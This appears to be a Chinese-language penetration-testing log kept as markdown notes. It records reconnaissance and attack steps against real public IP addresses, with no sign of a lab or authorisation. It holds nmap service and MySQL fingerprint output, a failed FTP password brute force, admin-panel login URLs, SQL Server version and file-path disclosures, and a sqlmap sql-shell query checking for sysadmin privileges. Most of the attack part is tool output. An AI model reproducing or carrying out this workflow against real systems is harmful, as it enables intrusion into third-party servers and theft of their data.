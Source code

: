 ```shell
|_http-title: TestPage184
| ssl-cert: Subject: commonName=hh.j391.com
| Subject Alternative Name: DNS:hh.j391.com
| Not valid before: 2018-12-17T00:00:00
|_Not valid after:  2019-12-17T12:00:00
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| tls-nextprotoneg: 
|   h2
|_  http/1.1
888/tcp  open  http     nginx
|_http-server-header: nginx
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL 5.5.54
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.54
|   Thread ID: 1952431
|   Capabilities flags: 63487
|   Some Capabilities: InteractiveClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, SupportsTransactions, FoundRows, ConnectWithDatabase, LongPassword, IgnoreSigpipes, LongColumnFlag, Support41Auth, DontAllowDatabaseTableColumn, ODBCClient, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Xdo~OO!PS19j.@:B|k%r
|_  Auth Plugin Name: 79
8888/tcp open  http     CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: localhost
| http-title: 404 Not Found
|_Requested resource was http://47.244.137.43:8888/login
```

ftp 弱密码爆破失败


偶遇宝塔面板：
```
http://47.244.137.43:8888/login
```

登入界面
```
http://47.244.137.43/index.php?&g=admin&m=login&a=index
```

http://47.244.137.43/h/
--> 跳转到一个新的地址
http://120.79.231.181:5021/v2/Login.asp
这他妈得开多少服务，还是阿里云的 winserver
```
OS details: Windows Server 2012
Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (X64) \n\tJun 28 2012 08:36:30 \n\tCopyright (c) Microsoft Corporation\n\tDeveloper Edition (64-bit) on Windows NT 6.2 <X64> (Build 9200: ) (Hypervisor)

D:\adi_bgqiqt\web\v2\conn.asp
```
```
select @@SERVERNAME:    'iZztdc2gcz0d1vZ\\SQLEXPRESS'

sql-shell> SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
[22:06:40] [INFO] fetching SQL SELECT statement query output: 'SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END)'
```
